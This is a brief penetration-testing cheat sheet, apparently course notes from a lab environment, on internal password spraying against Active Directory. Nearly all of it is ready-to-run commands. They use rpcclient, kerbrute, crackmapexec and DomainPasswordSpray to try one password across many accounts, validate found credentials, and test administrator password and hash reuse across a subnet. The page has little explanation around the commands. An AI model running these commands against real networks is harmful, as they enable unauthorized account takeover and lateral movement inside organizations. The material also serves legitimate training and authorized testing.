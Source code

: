 # Internal Password Spraying

## From Linux

### Different tools to spray Welcome1 Password :

```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" $TARGET | grep Authority; done
kerbrute passwordspray -d inlanefreight.local --dc $TARGET valid_users.txt  Welcome1
sudo crackmapexec smb $TARGET -u valid_users.txt -p Welcome1 | grep +
```

### Validate Credentials :&#x20;

```
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

### Local Administrator Password Reuse :&#x20;

When we find a common used password (or hash), we can try to use onto other machines locally on the network

```
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -p Welcome1 | grep +
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

## From Windows

From a foothold on a domain-joined Windows host : DomainPasswordSpray tool is highly effective :

```
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

```
